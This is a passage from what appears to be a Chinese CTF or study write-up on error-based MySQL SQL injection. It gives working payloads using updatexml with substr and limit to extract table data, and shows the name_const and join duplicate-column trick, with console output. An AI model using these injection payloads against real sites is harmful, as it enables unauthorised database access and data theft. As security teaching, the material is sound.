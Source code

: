 可以看到我们可以得到一部分的数据，但是因为报错函数限制长度，我们只能一步一步的截取输出，比如使用substr()函数，使用payload：

```
?name=1'and updatexml(1,concat('^',( select substr(group_concat(text),155,172) from wfy_comments),'^'),1)--+
```

当然也可以使用limit，利用limit进行分页，作用是展示第几条数据，如：

```
?name=1'and updatexml(1,concat('^',( select text from wfy_comments limit 5,1),'^'),1)--+
```

但是缺点是有的是长度有限制的话还是显示不出来，比如这个题他就显不出来flag。

## mysql列名重复报错

内容都抄的S[QL注入有趣姿势总结](https://xz.aliyun.com/t/2869#toc-20)：

在mysql中，mysql列名重复会导致报错，而我们可以通过name_const制造一个列.
Name_const函数用法：

```
mysql> select name_const(version(),1);
+--------+
| 5.5.47 |
+--------+
|      1 |
+--------+
1 row in set (0.00 sec)
```

报错用法：

```
mysql> select name_const(version(),1),name_const(version(),1);;
+--------+--------+
| 5.5.47 | 5.5.47 |
+--------+--------+
|      1 |      1 |
+--------+--------+
1 row in set (0.00 sec)

ERROR:
No query specified

mysql> select * from (select name_const(version(),1),name_const(version(),1))x;
ERROR 1060 (42S21): Duplicate column name '5.5.47'
```

不过这个有很大的限制，`version()`所对应的值必须是常量，而我们所需要的`database()`和`user()`都是变量，无法通过报错得出，但是我们可以利用这个原理配合join函数得到列名。用法如下：

```
mysql> select * from ctf_test a join ctf_test b;
+------+--------------+------+--------------+
| user | pwd          | user | pwd          |
+------+--------------+------+--------------+
| 1    | 0            | 1    | 0            |
| 2    | flag{OK_t72} | 1    | 0            |
| 1    | 0            | 2    | flag{OK_t72} |
| 2    | flag{OK_t72} | 2    | flag{OK_t72} |
+------+--------------+------+--------------+
4 rows in set (0.00 sec)

mysql> select * from (select * from ctf_test a join ctf_test b )x;
ERROR 1060 (42S21): Duplicate column name 'user'
mysql> select * from (select * from ctf_test a join ctf_test b using(user))x;
ERROR 1060 (42S21): Duplicate column name 'pwd'
mysql> select * from (select * from ctf_test a join ctf_test b using(user,pwd))x;
```